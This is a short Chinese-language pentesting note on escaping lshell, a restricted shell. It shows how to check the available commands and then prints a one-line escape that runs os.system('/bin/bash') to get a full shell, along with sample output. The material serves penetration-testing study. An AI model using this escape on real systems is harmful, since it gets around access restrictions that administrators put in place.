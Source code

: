 ## lshell(Limited Shell) escape

lshell是表示当前用户的shell是受限的，只能执行几个指定的指令
可参考[Lshell - aldeid](https://www.aldeid.com/wiki/Lshell)

先确定自己是否被受限
```
user:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
或
user:~$ help help
Limited Shell (lshell) limited help.
```

这里可以执行echo
便可以一句话脱离受限的shell
```
export os.system('/bin/bash')

user@lshell:~$ id
uid=1000(user) gid=1000(user)
```

